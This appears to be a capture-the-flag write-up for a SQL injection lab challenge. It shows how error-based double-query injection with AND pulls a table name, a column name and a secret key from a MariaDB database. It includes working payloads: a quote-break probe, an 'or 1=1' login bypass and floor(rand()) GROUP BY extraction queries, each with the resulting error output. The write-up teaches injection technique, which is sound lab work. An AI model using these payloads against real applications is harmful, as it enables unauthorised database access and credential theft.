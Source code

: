 ## Challenge - 8

This challenge is based on double query injection and we have to use AND in this injection

### Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''\')) LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id = (('input')) 
```

We can check this using id=

```sql
0')) or 1=1 --+
```

which will give us a login id and password. 

This challenge is similar to the previous one so we can use the same payload

### Solving

We can get the table name using: id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```
Duplicate entry ':e5nn7wr836:1' for key 'group_key'
```

From which we get table_name = **e5nn7wr836**

Now we can get the column name using: id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='e5nn7wr836' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```


Which will give the error:

Which will give the error:

```
Duplicate entry ':secret_I9PS:1' for key 'group_key'
```

From which we will get column_name = **secret_I9PS**

Now we can get the secret key using : id=

```sql
1')) AND (select 1 from(select count(*),concat(0x3a,(select secret_I9PS from e5nn7wr836),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```
Duplicate entry ':ZM8H3Va5gCasgjFgKcNxmHsy:0' for key 'group_key'
```

where the key is :

**ZM8H3Va5gCasgjFgKcNxmHsy**